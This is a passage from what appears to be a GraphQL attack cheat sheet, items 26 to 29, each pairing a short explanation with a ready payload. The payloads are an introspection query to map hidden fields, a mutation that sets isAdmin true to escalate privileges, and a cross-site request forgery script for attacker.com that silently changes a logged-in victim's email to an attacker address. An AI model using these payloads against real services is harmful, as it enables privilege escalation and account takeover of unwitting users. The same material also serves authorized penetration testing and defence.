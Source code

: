 ### 26. Bypassing Field Restrictions via Introspection

**Explanation:**
Sometimes introspection is off globally, but works on specific types or subfields.

**Payload:**

```json
{
  "query": "query { __type(name:\"User\") { name fields { name type { name } } } }"
}
```

---

### 27. Mutation Tampering (Data Injection)

**Explanation:**
Try injecting unexpected fields or types in mutation inputs — might bypass frontend validations.

**Payload:**

```json
{
  "query": "mutation { updateUser(id: 1, input: { name: \"Attacker\", isAdmin: true }) { id } }"
}
```

---

### 28. CSRF on GraphQL Mutations

**Explanation:**
If CORS is misconfigured and cookies are used for auth, you can trigger mutations from another site.

**Payload:**
*Embed this query in a hidden form or JS in attacker.com*

```javascript
fetch("https://victim.com/graphql", {
  method: "POST",
  credentials: "include",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({
    query: "mutation { changeEmail(newEmail: \"attacker@mail.com\") { id } }"
  })
});
```

---

### 29. Exposed Secrets via Schema Misconfig
